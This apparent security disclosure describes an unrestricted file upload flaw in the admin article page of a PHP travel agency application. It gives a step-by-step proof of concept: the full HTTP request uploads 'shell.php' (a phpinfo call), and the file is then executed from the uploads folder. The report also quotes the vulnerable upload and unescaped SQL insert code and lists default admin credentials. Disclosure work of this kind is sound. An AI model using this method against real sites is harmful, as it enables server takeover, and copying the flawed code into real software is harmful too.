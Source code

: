 # [Online Travel Agency System-File upload vulnerabilities-artical.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** http://localhost/Travel/admin/artical.php

**[Vulnerability Location]:** /Travel/admin/artical.php

**[Vulnerability Test]:**

1. First visit http://10.151.222.198/Travel/admin/artical.php, display the Add Employee page, fill in the relevant data, and upload a PHP file at the `Picture` with the content `<?php phpinfo(); ? >`

   ![](../../img/20230428174613.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /Travel/admin/artical.php HTTP/1.1
   Host: 10.151.222.198
   Content-Length: 621
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.151.222.198
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.222.198/Travel/admin/artical.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=86dm5d6ncj5mk3db07gti39pb4
   Connection: close
   
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="title"
   
   aaaa
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="file"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="page_type"
   
   home
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="description"
   
   this is a page
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="save"
   
   submit
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ--
   
   ```
   
   The response results are shown in the figure
   
   ![](../../img/20230428174555.png)
   
4. Visit http://10.151.222.198/Travel/admin/artical_view.php, where all articals are displayed, including the article just added, and the path to the image is displayed in the front-end source code.

   ![](../../img/20230428174917.png)

5. Visit http://10.151.222.198/Travel/admin/uploaded/shell.php

   ![](../../img/20230428175213.png)

**[code analysis]:**

In /Travel/admin/artical.php:

```php
<?php
if(isset($_POST['save']))
{
$title=$_POST['title'];	
$description=$_POST['description'];	
$page_type=$_POST['page_type'];	

$dir='uploaded/';
$uploadfile=$dir.basename($_FILES['file']['name']);
if(move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)){
$filename=$_FILES['file']['name'];
}

$query_insert=mysqli_query($con,"INSERT INTO pages(`title`, `picture`, `page_type`,  `description`) VALUES ('$title', '$filename', '$page_type', '$description')" )  or die(mysqli_error($con));
}
?>
```

No filtering is done on uploaded filenames

In /Travel/admin/artical_view.php

```php+HTML
<?php
$sql=mysqli_query($con,"select * from pages ORDER BY 'Aid' DESC")or die("Query Error");
while($row=mysqli_fetch_array($sql)){
	$page_id=$row['page_id'];
?>

// In line 31
<img src="uploaded/<?php  echo $row['picture']; ?>" width="120" height="100">
```

And the file address is echoed on the page

